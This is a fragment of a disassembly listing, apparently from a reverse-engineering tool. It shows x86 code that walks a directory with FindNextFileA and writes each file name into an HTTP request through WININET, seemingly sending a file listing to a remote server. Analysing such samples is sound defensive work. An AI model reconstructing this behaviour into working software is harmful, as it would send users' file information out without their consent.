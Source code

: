 ```
        0040105e 56              PUSH       ESI
        0040105f ff 15 bc        CALL       dword ptr [->WININET.DLL::HttpSendRequestExA]    = 0000234c
                 20 40 00
        00401065 8d 4c 24 3c     LEA        ECX,[ESP + 0x3c]
        00401069 8d 51 01        LEA        EDX,[ECX + 0x1]
        0040106c 8d 64 24 00     LEA        ESP,[ESP]
                             LAB_00401070                                    XREF[1]:     00401075(j)
        00401070 8a 01           MOV        AL,byte ptr [ECX]
        00401072 41              INC        ECX
        00401073 84 c0           TEST       AL,AL
        00401075 75 f9           JNZ        LAB_00401070
        00401077 8b 1d b4        MOV        EBX,dword ptr [->WININET.DLL::InternetWriteFile] = 00002376
                 20 40 00
        0040107d 8d 44 24 0c     LEA        EAX,[ESP + 0xc]
        00401081 50              PUSH       EAX
        00401082 2b ca           SUB        ECX,EDX
        00401084 8d 44 24 40     LEA        EAX,[ESP + 0x40]
        00401088 51              PUSH       ECX
        00401089 50              PUSH       EAX
        0040108a 56              PUSH       ESI
        0040108b ff d3           CALL       EBX=>WININET.DLL::InternetWriteFile
        0040108d 8d 44 24 0c     LEA        EAX,[ESP + 0xc]
        00401091 50              PUSH       EAX
        00401092 6a 01           PUSH       0x1
        00401094 68 08 21        PUSH       DAT_00402108                                     = 0Ah
                 40 00
        00401099 56              PUSH       ESI
        0040109a ff d3           CALL       EBX=>WININET.DLL::InternetWriteFile
        0040109c 8d 44 24 10     LEA        EAX,[ESP + 0x10]
        004010a0 50              PUSH       EAX
        004010a1 57              PUSH       EDI
        004010a2 ff 15 08        CALL       dword ptr [->KERNEL32.DLL::FindNextFileA]        = 0000232e
                 20 40 00
        004010a8 85 c0           TEST       EAX,EAX
        004010aa 7e 4a           JLE        LAB_004010f6
        004010ac 8d 64 24 00     LEA        ESP,[ESP]
                             LAB_004010b0                                    XREF[1]:     004010f4(j)
        004010b0 8d 44 24 3c     LEA        EAX,[ESP + 0x3c]
        004010b4 c7 44 24        MOV        dword ptr [ESP + 0xc],0x0
                 0c 00 00
                 00 00
        004010bc 8d 50 01        LEA        EDX,[EAX + 0x1]
        004010bf 90              NOP
                             LAB_004010c0                                    XREF[1]:     004010c5(j)
        004010c0 8a 08           MOV        CL,byte ptr [EAX]
        004010c2 40              INC        EAX
        004010c3 84 c9           TEST       CL,CL
        004010c5 75 f9           JNZ        LAB_004010c0
        004010c7 8d 4c 24 0c     LEA        ECX,[ESP + 0xc]
        004010cb 2b c2           SUB        EAX,EDX
        004010cd 51              PUSH       ECX
        004010ce 50              PUSH       EAX
        004010cf 8d 44 24 44     LEA        EAX,[ESP + 0x44]
        004010d3 50              PUSH       EAX
        004010d4 56              PUSH       ESI
        004010d5 ff d3           CALL       EBX=>WININET.DLL::InternetWriteFile
        004010d7 8d 44 24 0c     LEA        EAX,[ESP + 0xc]
```
